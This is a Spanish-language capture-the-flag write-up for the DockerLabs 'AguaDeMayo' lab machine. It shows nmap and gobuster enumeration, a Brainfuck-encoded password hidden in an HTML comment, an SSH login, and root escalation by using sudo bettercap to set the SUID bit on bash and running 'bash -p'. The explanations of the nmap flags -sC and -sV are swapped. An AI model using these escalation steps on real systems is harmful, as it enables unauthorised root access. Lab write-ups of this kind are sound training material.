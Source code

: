 ## WRITEUP DE LA MÁQUINA AGUADEMAYO DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.18.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```
─$ nmap -sC -sV 172.17.0.2 -oN outputscan.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 03:11 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

Vemos que el puerto 22 y 80 de los servicios ssh y http respectivamente estan abiertos. Empezaremos por ver que sitio web encontramos con la IP víctima (172.17.0.2):

![Pagina web](pagina.png)

Vemos que es una página web sencilla, como costrumbre reviso el código fuente con ```Ctrl + u```. Si no eres observador veras un código normal sin nada raro, peo cuando llegas a las últimas lineas vemos que todavía se puedo hacer mucho más scroll hacia abajo, y que vemos...?

```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

Es normal no entender que sígnifican tantos caracteres pero si lo buscas en algun navegador o en alguna IA, te diran que es el lenguage de programación conocido como Brainfuck. Metiendo este codigo (Sin el ```<!-- y -->``` del principio y final, eso es solo para hacer un comentario en HTML) un decodificador que he encontrado (https://www.dcode.fr/brainfuck-language) nos muestra que dicho código significa: "bebeaguaqueessano". <br><br>
Tenemos lo que posiblemente sea una contraseña. Vamos ahora a buscar directorios ocultos en esta página web para ver si podemos encontrar algo, algún nombre de usuario, algún archivo o algo. Lo haremos mediante la herramienta Gobuster.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br><br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
El resultado:

```
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio oculto en la página llamado "images", lo ponemos en el navegador y vemos:

![foto del directorio images](ssh.png)

Probe a descargar los datos y buscar información en los metadatos pero nada, es mucho más simple. Teniendo el nombre de la foto, "agua_ssh.jpg" me dice que el usuario al que debo hacer ssh es "agua" y su contraseña debería ser "bebeaguaqueessano".

```
ssh agua@172.17.0.2
```

Hacemos un ```Sudo -l``` para escalar privilegios, vemos que podemos ejecutar el binario bettercap. Lo ejecutamos mediante ```sudo /usr/bin/bettercap``` y nos sale:

```
agua@fb7a55388ca1:~$ sudo /usr/bin/bettercap 
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [08:16:10] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »  
```

Si escribimos help nos sale una lista de comandos y cosas que podemos ejecutar, vemos que para ejecutar comandos por la shell hay que poner un ! delante del comando:

![bettercap](bettercap.png)

Le vamos a dar al binario bash el permiso SUID (activar el bit SUID) y así poder ejecutar bash con los permisos de root sin serlo. Para ello escribimos ```chmod u+s /usr/bin/bash```;
<br><br>
"chmod" -> (change mode) es el comando para cambiar permisos.
<br>
"u" -> Cace referencia a "user", significa que cambiaremos permisos a user.
<br>
"+" -> Con el más conseguimos agregar los permisos que indiquemos.
<br>
"s" -> Hace referencia al permiso SUID (Set User ID), activa dicho bit.
<br>
"/usr/bin/bash" -> Esta es la ruta a la que vamos a sumar los permisos.
<br><br>
Salimos al usuario de agua con ```exit``` y escribimos ```bash -p``` (Usar bash -p te proporciona una shell de root, pero sin arriesgarte a heredar permisos SUID de otros binarios o de la shell en la que estabas trabajando.)

```
agua@fb7a55388ca1:~$ bash -p
bash-5.2# whoami
root          
```

Somos root, muchas gracias por seguir este writeup, nos vemos en la próxima!!